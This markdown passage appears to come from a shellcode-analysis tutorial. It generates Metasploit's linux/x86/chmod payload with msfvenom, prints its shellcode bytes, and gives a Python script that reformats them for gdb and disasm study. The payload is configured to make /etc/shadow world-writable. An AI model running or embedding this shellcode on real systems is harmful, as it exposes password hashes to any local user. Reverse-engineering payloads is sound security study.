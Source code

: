 ### Settings for our MSF chmod payload
```console
root# msfvenom --payload linux/x86/chmod --list-options
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode
```

## Preparing the Shellcode for `gdb` & `disasm` Analysis
### Generating the `chmod` Shellcode
```console
root@zed# msfvenom -p linux/x86/chmod --format python 2>/dev/null | \
> egrep "^buf " | sed -e 's/buf /sc /g'
sc =  ""
sc += "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74"
sc += "\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01"
sc += "\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"
```
+ We will export the shellcode to the python format.
  -  This will allow us to add the shellcode to our python script for formatting.
+ Once we generate the correct format for our shellcode, we will add it to our `JMP|Call|POP` assembly program.
  - This will allow us to easily analyze the shellcode with `gdb` and `disasm`.

### Formatting the Shellcode for Assembly Compilation
+ We will copy the `sc` python variable generated above, and add it to our python script.
+ Typically `msfvenom` generates the shellcode in the `\x99` we see above.
+ We need the shellcode to be in the `0x99,` format.
  - Assembly requires we use the `0x99,` format for assigning a hex string to memory.

#### Our Python Script to Format the Hex Code
```python
#!/usr/bin/python
# Filename: formatHex.py
# Author:   boku
# Purpose:  A python script that converts the '\x' format to '0x ,'

# Add the shellcode hex here.
sc =  ""
sc += "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74"
sc += "\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01"
sc += "\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"

output = ""
print 'Encoded shellcode ...'
for x in bytearray(sc) :
        output += '0x'
        output += '%02x,' %x
print output
```
